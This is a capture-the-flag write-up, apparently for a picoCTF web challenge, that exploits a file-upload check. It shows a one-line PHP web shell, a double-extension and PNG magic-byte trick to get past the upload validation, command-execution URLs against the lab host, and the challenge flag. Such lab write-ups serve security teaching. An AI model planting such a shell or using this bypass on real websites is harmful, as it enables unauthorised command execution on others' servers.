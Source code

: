 

---

This website offers us a file upload to upload an image, hence, the vulnerability is probably a file upload vulnerability.

With Burp Suite Proxy HTTP History tab open, try uploading a regular PNG image and capture the request:

![](./screenshots/trick-1.png)

Normally in a file upload vulnerability, the best thing to do is to try and upload a reverse shell.
- I will be using a PHP reverse shell as it is the most common one.

```php
<?php echo system($_GET['cmd']); ?>
```
> This PHP shell basically executes the query command called `cmd` when the file is called: `http://websiite/shell?cmd=ls`. Assuming the web shell is in the `shell` file, then the command `ls` will be executed and printed to us.

Now, we need to find a way to upload this shell, and then find another way to access it.
- This means, we need to locate where the images we upload are actually located on the server.

To do so, we can use a an enumeration tool to find common directories and files that might be present.
- By luck, I tried opening the `robots.txt` file, and it had the information we were looking for.

![](./screenshots/trick-2.png)

We see an important file called `instructions.txt`, and an `uploads` directory which probably holds the images we upload.

- Opening the `instructions.txt` file:

![](./screenshots/trick-3.png)

> It has the checks that are applied on a file as it is uploaded. These include checking that the string `.png` exists in the filename, and that it has the magic bytes of `PNG`.

These 2 validations can be easily bypassed by doing the following to our image:
1. Change the name such that it has `.png` in it, but also make sure that it has the `.php` extension such that the web shell code will execute.
2. Make sure that the `PNG` magic bytes exist in the beginning of the file.

Hence, this is how our request should look like to upload our malicious file:

![](./screenshots/trick-4.png)

Sending this request works, and our file is now present on the server.
- We can access it by going to the `/uploads/x.png.php` path on the website, along with passing a command through the `cmd` query parameter.

```url
http://atlas.picoctf.net:62471/uploads/x.png.php?cmd=id
```

![](./screenshots/trick-5.png)

> We see that we can now execute commands, and the results of that command is displayed.

After some looking around, the flag can be obtained using the following command:

```URL
http://atlas.picoctf.net:62471/uploads/x.png.php?cmd=cat+../HFQWKODGMIYTO.txt
```

FLAG:

```text
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}
```

---
